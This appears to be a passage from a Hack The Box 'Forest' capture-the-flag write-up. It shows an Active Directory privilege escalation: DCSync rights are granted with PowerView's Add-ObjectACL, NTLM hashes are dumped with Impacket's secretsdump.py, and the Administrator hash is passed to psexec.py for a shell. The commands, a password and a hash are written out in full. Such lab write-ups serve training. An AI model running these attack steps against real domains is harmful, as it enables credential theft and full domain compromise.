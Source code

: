 ### Modifying DACL for DCSync Privileges

With the **WriteDACL** permission on the domain object **HTB.LOCAL**, I used PowerView commands to grant **DCSync** rights to **binary_exec**. DCSync allows an account to replicate credentials from a Domain Controller, enabling password hash extraction.

1. **Uploading PowerView to the Target**:
   Using **evil-winrm** to upload **PowerView.ps1**.

   ```bash
   *Evil-WinRM* PS C:\Users\binary_exec\Documents> upload /home/kali/Red_Team/Tools/PowerView.ps1
   ```
   ![image.png]({{ '/assets/img/Forest/image%203.png' | relative_url }})
2. **Executing PowerView to Modify ACL**:
   Two PowerShell commands were used to modify the ACL:
```bash
*Evil-WinRM* PS C:\Users\binary_exec\Documents> Add-ObjectACL -PrincipalIdentity binary_exec -Credential Pass123! -Rights DCSync
```
Since `-Credential` expects a **PSCredential** object, I updated the command with the correct format:
```bash
$pass = ConvertTo-SecureString 'Pass123!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb\binary_exec', $pass)
Add-ObjectACL -PrincipalIdentity binary_exec -Credential $cred -Rights DCSync
```

## Dumping NTLM Hashes Using secretsdump.py

With DCSync rights enabled, I used **secretsdump.py** from Impacket to extract NTLM hashes directly from the Domain Controller:

```bash
python3 /home/kali/Red_Team/Tools/impacket/examples/secretsdump.py htb/binary_exec@10.10.10.161
```

This output provided NTLM hashes for domain accounts, including the **Administrator** account.


## Gaining Administrator Shell

With the extracted NTLM hash for the Administrator account, I used **psexec.py** to gain a shell as Administrator:

```bash
python3 /home/kali/Red_Team/Tools/impacket/examples/psexec.py administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
![image.png]({{ '/assets/img/Forest/image%204.png' | relative_url }})

This provided an Administrator shell, completing the privilege escalation process.

![image.png]({{ '/assets/img/Forest/image%205.png' | relative_url }})

## Disclaimer:
